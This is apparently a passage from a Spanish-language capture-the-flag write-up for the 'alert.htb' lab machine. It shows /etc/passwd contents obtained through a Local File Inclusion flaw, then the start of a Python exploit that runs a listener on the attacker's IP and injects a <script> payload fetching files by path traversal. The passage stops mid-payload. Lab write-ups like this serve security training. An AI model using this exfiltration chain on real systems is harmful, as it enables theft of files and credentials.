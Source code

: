 ```
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
</pre>
```

Tenemos acceso a `/etc/passwd`, por lo tanto, este parámetro es vulnerable a `Local File Inclusion (LFI)`.

Para acceder a archivos más cómodamente podemos hacer un simple script en python.

```python
#!/usr/bin/env python3

import socket
import requests
import sys
import re
import urllib
import threading
import time

HOST = "alert.htb"
LOCAL_IP = "10.10.14.191"
LOCAL_PORT = 12345

def listenHTTP():
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind(("0.0.0.0", LOCAL_PORT))
    server.listen(3)

    while True:
        client, _ = server.accept()

        request = client.recv(10000).decode()

        firstLine = request.split("\n")[0]

        if "GET" in firstLine and "?" in firstLine:
            parts = firstLine.split(" ")
            url = parts[1]

            params = urllib.parse.parse_qs(urllib.parse.urlparse(url).query)

            if "res" in params:
                res = params["res"][0]
                decoded = urllib.parse.unquote(res)

                content = decoded[5:-8]

                print(content)

                client.close()

def uploadMd(file):
    script = f"""
<script>
(async () => {{
const res = await fetch('http://{HOST}/messages.php?file=../../../../../../../..{file}')
const text = await res.text()
```